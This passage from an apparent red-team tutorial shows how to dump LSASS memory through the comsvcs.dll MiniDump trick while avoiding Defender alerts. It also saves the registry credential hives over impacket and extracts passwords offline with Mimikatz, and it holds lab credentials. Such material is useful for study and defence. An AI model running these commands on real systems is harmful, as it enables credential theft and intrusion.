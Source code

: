 Windows uses previously entered (cached) credentials to grant the user access permissions to the workstation.

The morale of the story is - the credentials on machines memory are sometimes stored in plaintext. Be careful what account you use to log into the domain machines.

Technique of stealing these credentials is known as https://attack.mitre.org/techniques/T1003.

## Let's do the same offline though

Instead of working on a live organism, we will download the memory dump for further investigation offline. This is a more stealthy approach, and we will be requiring no obfuscation of Mimikatz.
 
When we use a `procdump` (https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) tool to dump the process memory, we will get an alert from defender, as the process is monitored.

![](http://news.baycode.eu/wp-content/uploads/2023/11/12-2.png)

### LOLBin to the rescue
Sometimes operating systems include components that can be creatively used in malicious ways. For example - you can achieve the same using the task manager, but you must first RDP into the machine.

Open the task manager, right click on the process, and press "Create Dump File". When running the task manager without administrator privileges, a Windows Defender alert will appear during dumping, and the file will be quarantined. However, if you run the task manager as an administrator, this behavior changes.

![](http://news.baycode.eu/wp-content/uploads/2023/11/13-2.png)

We can do the same from the terminal using the LOLBin comsvcs.dll, and create a MiniDump of memory, and we will **not** be flagged by Microsoft Defender by default, however this could be flagged by SIEMs/EDRs/other AVs.

```
impacket-smbexec 'helpdesk:G3t_somehelp_br0@10.10.24.101' -dc-ip 10.10.24.250
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 628 C:\ProgramData\helpdesk.dmp full

impacket-wmiexec 'helpdesk:G3t_somehelp_br0@10.10.24.101' -dc-ip 10.10.24.250
lget C:\ProgramData\helpdesk.dmp
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/14-1.png)

For offline investigation, we'll gather SAM, SYSTEM, and SECURITY hives too.

```
reg save HKLM\SAM "C:\ProgramData\sam"
reg save HKLM\SECURITY "C:\ProgramData\security"
reg save HKLM\SYSTEM "C:\ProgramData\system"
```

The memory dump can now be processed offline using Mimikatz.

```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
mimikatz # sekurlsa:ekeys
mimikatz # lsadump::sam /sam:'<sam>' /system:'<system>'
mimikatz # lsadump::secrets /security:'<security>' /system:'<system>'
```
